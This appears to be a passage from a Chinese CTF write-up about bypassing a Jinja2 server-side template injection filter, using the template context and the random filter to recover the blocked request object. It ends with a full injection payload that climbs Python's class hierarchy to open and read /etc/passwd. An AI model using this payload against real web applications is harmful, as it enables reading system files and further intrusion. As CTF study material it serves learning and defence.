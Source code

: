 
`self._TemplateReference__context.parent` 与 `self._TemplateReference__context` 没太大区别 除了类型上

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201109103044.png)





![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201109103207.png)

成功获取 `request`类

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201109103233.png)



因`request` 被过滤，所以得找个字符串代替 将 `self._TemplateReference__context.parent` 转为`list`

红色即为想要的字符串 

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201109103424.png)



试了试常用的过滤器，发现`random` 可用

![U8dRSJ.png](https://s1.ax1x.com/2020/07/12/U8dRSJ.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201109103614.png)



因为random 原因 多刷新几次就i会出现 `request`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201109103650.png)



组合一下 获取`request` 类

`(self._TemplateReference__context.parent).pop(self._TemplateReference__context.parent|list|random)`



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201109103850.png)

之后就好说了 构造如下，多刷新几次就成了 （比赛就差读flag了，没时间了。。。。

```python
{ %set%20a=((self._TemplateReference__context.parent).pop(self._TemplateReference__context.parent|list|random))% }{ 
{((()|attr(a.args.a)|attr(a.args.b)|attr(a.args.c)())|attr(a.args.d)(40))(a.args.e).read()} 
}&a=__class__&b=__base__&c=__subclasses__&d=__getitem__&e=/etc/passwd
```



本地读个passwd 安慰一下 `/(ㄒoㄒ)/~~`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201109104204.png)
